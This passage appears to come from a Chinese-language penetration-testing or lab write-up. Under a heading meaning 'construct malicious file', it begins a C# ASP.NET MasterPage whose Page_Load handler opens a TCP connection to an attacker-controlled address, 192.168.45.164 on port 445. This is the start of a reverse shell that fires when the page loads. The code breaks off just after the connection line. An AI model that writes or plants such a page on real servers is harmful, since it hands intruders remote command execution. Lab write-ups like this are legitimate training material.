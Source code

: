 ![image-20240212202100002](resource/26-W-M-Butch.assets/image-20240212202100002.png)



构造恶意文件：

```c#
using System;
using System.Web.UI;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;

namespace MyNamespaceMaster
{
	public partial class MyClassMaster : MasterPage
	{
    static StreamWriter streamWriter;
		protected void Page_Load(object sender, EventArgs e)
		{
			using(TcpClient client = new TcpClient(&#34;192.168.45.164&#34;, 445))
			{
```